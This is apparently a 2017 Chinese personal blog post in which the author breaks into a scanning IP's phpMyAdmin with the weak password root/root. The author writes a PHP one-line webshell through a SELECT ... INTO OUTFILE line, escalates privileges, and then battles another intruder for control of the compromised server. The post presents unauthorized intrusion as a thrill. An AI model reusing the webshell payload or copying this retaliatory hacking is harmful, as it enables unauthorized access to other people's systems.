 ```yaml
---
id: 49
title: 一次黑产对抗 体验攻防的快感
date: 2017-08-12T11:47:41+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=49
permalink: /?p=49
categories:
  - 未分类
---
```

在某个大雪纷飞，天寒地冻的天气，在这么恶劣的天气情况下，我艰难的查看公司的日志

一个ip每天扫一次我们有没有phpmyadmin的目录  
于是乎我决定看一看究竟  
直接在网页中打开这个ip  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-300x177.png" alt="" width="300" height="177" class="alignnone size-medium wp-image-50" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-300x177.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-768x453.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1024x604.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-830x489.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-230x136.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-350x206.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-480x283.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4.png 1089w" sizes="(max-width: 300px) 85vw, 300px" />  
映入眼帘是我们熟悉的phpmyadmin

试试弱口令吧

root/root

惊奇的进去了

奈何不知道目录 （这里感谢一公司大神的提权之道直接猜了目录）

select &#8216;<?php @eval($_POST[admin])?>&#8216;INTO OUTFILE &#8216;D:/www/a.php&#8217;

  
写入一句话木马

菜刀连接之  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-300x181.png" alt="" width="300" height="181" class="alignnone size-medium wp-image-51" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-300x181.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-768x463.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-230x139.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-350x211.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-480x290.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1.png 794w" sizes="(max-width: 300px) 85vw, 300px" /> 

发现是system权限直接提权之

登录之后发现好像是某私服网站然后被挂马了，用来当肉鸡  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-300x215.png" alt="" width="300" height="215" class="alignnone size-medium wp-image-52" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-300x215.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-768x550.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-230x165.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-350x251.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-480x344.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2.png 781w" sizes="(max-width: 300px) 85vw, 300px" />  
既然知道了 都不干净 留个管理员就不深入了

然而逆转性的东西发生了 这货控制这肉鸡这货第二天居然把我的管理员账号给删了

我不搞你 你却搞我 这我不能忍

于是乎一场肉鸡保卫战就这么开始了

1首先查看原来的一句话有没有被删除 （没被删除）

2于是重新建立个账户登录上去  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-300x249.png" alt="" width="300" height="249" class="alignnone size-medium wp-image-53" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-300x249.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-230x191.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-350x290.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-480x398.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3.png 594w" sizes="(max-width: 300px) 85vw, 300px" />  
这里用了别人的图

那台肉鸡已经被我装了360……….

抓到管理员密码的hash然后破解之

我看到一个apache的账号特别活跃 于是乎登了上去 一看全是扫描工具在扫描

突然被顶了 一开始以为被主人发现了 登回去看看 发现开始气急败坏装360并t掉我 我仔细一想不对啊

怎么不用administrator的账户呢 后来在明白这货没有抓取密码

于是我登录管理员的账户 他登录一个账户我T掉他删掉一个账户 一来二去最后guest的账户都被我改密码了

这货开始传马 他传一个我删一个==（技术不到家）实在弄不过来了

最后把PHPstudy的环境关了

怎么才能不让他上传呢 大神幽幽的说了句吧写入权限关掉不就可以了么  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-245x300.png" alt="" width="245" height="300" class="alignnone size-medium wp-image-54" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-245x300.png 245w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-230x282.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-350x429.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4.png 423w" sizes="(max-width: 245px) 85vw, 245px" />  
机制如我  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-300x96.png" alt="" width="300" height="96" class="alignnone size-medium wp-image-55" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-300x96.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-768x245.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-830x265.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-230x73.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-350x112.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-480x153.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5.png 969w" sizes="(max-width: 300px) 85vw, 300px" />  
写不进去 本来想给他装个安全狗的

后来一想岂不是我的shell也连不了了

就没装  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-300x72.png" alt="" width="300" height="72" class="alignnone size-medium wp-image-56" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-300x72.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-230x55.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-350x84.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-480x116.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6.png 723w" sizes="(max-width: 300px) 85vw, 300px" />  
后来火眼看了它木马发现与这个ip有通信

美国ip不翻墙访问不了 又在apache日志上看到大量 ip大都是香港的

再追溯太难 就这样先端掉他一个小肉鸡再说

不过说实在的 这服务器比我小主机强多了  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-300x291.png" alt="" width="300" height="291" class="alignnone size-medium wp-image-57" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-300x291.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-230x223.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-350x340.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-480x466.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7.png 648w" sizes="(max-width: 300px) 85vw, 300px" />